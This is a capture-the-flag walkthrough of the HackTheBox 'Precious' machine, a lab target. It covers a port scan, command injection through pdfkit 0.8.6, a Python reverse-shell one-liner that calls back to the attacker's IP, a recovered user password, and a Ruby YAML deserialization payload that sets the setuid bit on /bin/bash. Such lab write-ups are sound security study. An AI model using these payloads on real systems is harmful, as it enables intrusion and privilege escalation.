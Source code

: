 ```yaml
---
categories: [hackthebox , walkthrough]
tags: [PrivEsc, Public Exploit]
image:
  path: /Vulnhub-Files/img/Precious/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/513
---
```


```jsx
 IP : 10.10.11.189

sudo nano /etc/hosts
10.10.11.189    precious.htb
```

## PORT SCAN RESULTS ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Precious]
└─$ **sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.11.189**
Starting Nmap 7.93 ( https:/nmap.org ) at 2023-04-15 12:14 IST
Nmap scan report for 10.10.11.189
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http:/precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeartion ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%201.png)

Now on Burpsuite I got the pdf Generation version and Name >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%202.png)

Since it is using `pdfkit v0.8.6`  to generate pdfs So I dig into it and I found that this version is vulnerable > 

![Untitled](/Vulnhub-Files/img/Precious/Untitled%203.png)

It leads us to Link : [Exploit](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795/)

After reading the `POC` I got to known that we can use any get `parameter`
 name and inside that use the `backticks` to injection our command.

```bash
http:/<LOCAL-IP>:<LOCAL-PORT>/?name=%20 `id(command)`
```

Now lets try it out now ➡️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%204.png)

And it generated the pdf with results >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%205.png)

So lets try for reverse shell now ⤵️

```bash
http:/10.10.14.33:8888/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.33",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
```

![Untitled](/Vulnhub-Files/img/Precious/Untitled%206.png)

I got this >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%207.png)

Now lets Login into henry ⤵️

```jsx
henry : **Q3c1AqGHtoI0aXAYFH**
```

![Untitled](/Vulnhub-Files/img/Precious/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%209.png)

Now lets see how to get to root >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2010.png)

Now let’s see what is inside this **update_dependencies.rb** file >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2011.png)

It is loading this dependencies.yml file >>

```bash
bash-5.1$ cat dependencies.yml]
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
bash-5.1$
```

Now I know that the /bin/bash permissions are changed so lets exploit it >>

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2012.png)

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2013.png)

Lets see the flag now ⤵️

![Untitled](/Vulnhub-Files/img/Precious/Untitled%2014.png)